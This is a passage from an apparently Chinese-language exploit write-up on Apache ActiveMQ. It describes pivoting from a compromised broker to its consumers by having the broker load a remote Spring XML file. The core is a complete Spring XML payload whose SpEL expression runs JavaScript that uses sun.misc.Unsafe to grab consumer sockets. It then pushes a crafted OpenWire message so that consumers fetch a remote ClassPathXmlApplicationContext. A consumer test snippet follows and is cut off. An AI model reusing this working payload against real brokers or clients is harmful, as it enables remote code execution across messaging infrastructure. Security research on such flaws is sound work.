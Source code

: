 获取到 Socket 后，直接开推恶意数据。这里通过先让 Broker 加载远程配置文件在 Broker 上实现 SPEL 代码执行后，通过代码执行获取消费者 socket 推送恶意数据，加载远程配置文件。上面也说到了消费者默认开启了 tightEncodingEnabled，所以需要使用 tightEncodingEnabled 的 Exp。经过测试，漏洞利用后不会将消费打挂。

```bash
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:context="http://www.springframework.org/schema/context"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans-4.0.xsd
            http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context-4.0.xsd">

    <context:property-placeholder ignore-resource-not-found="false" ignore-unresolvable="false"/>

    <bean class="java.lang.String">
        <property name="String" value="#{T(javax.script.ScriptEngineManager).newInstance().getEngineByName('js').eval(&quot;function getunsafe() {var unsafe = java.lang.Class.forName('sun.misc.Unsafe').getDeclaredField('theUnsafe');unsafe.setAccessible(true);return unsafe.get(null);} var unsafe = getunsafe(); brokerRegistry = org.apache.activemq.broker.BrokerRegistry.getInstance();brokers = brokerRegistry.getBrokers();for(key in brokers){   brokerService = brokers.get(key);  try{ f = brokerService.getClass().getDeclaredField('shutdownHook'); }catch(e){f = brokerService.getClass().getSuperclass().getDeclaredField('shutdownHook');}   f.setAccessible(true);   shutdownHook = f.get(brokerService);   threadGroup = shutdownHook.getThreadGroup();   f = threadGroup.getClass().getDeclaredField('threads'); threads = unsafe.getObject(threadGroup, unsafe.objectFieldOffset(f)); for(key in threads){       thread = threads[key];       if(thread == null){           continue;       }       threadName = thread.getName();       if(threadName.startsWith('ActiveMQ Transport: ')){           f = thread.getClass().getDeclaredField('target');                      tcpTransport = unsafe.getObject(thread, unsafe.objectFieldOffset(f));           f = tcpTransport.getClass().getDeclaredField('socket');           f.setAccessible(true);           socket = f.get(tcpTransport);           bos = new java.io.ByteArrayOutputStream();           dataOutput = new java.io.DataOutputStream(bos);           dataOutput.writeInt(1);           dataOutput.writeByte(31);    bs = new org.apache.activemq.openwire.BooleanStream();    bs.writeBoolean(true);  bs.writeBoolean(true);  bs.writeBoolean(true);  bs.writeBoolean(false);   bs.writeBoolean(true); bs.writeBoolean(false);  bs.marshal(dataOutput); dataOutput.writeUTF('bb');  dataOutput.writeUTF('aa');  dataOutput.writeUTF('org.springframework.context.support.ClassPathXmlApplicationContext');  dataOutput.writeUTF('http://localhost:8000/dddd');  dataOutput.writeShort(0);  socketOutputStream = socket.getOutputStream();           socketOutputStream.write(bos.toByteArray());         }   }   }&quot;)}"/>
    </bean>
</beans>
```

**点对点消费测试**  

```bash
ConnectionFactory connectionFactory = new ActiveMQConnectionFactory(ActiveMQConnection.DEFAULT_USER,
        ActiveMQConnection.DEFAULT_PASSWORD, "tcp://localhost:61616");

Connection connection = connectionFactory.createConnection();
connection.start();
Session session = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
Destination destination = session.createQueue("tempQueue");
MessageConsumer consumer = session.createConsumer(destination);
consumer.setMessageListener(new MessageListener() {
    @Override
    public void onMessage(Message message) {

        try {
            message.acknowledge();
            TextMessage om = (TextMessage) message;
            String data = om.getText();
            System.out.println(data);
        } catch (JMSException e) {
            e.printStackTrace();
```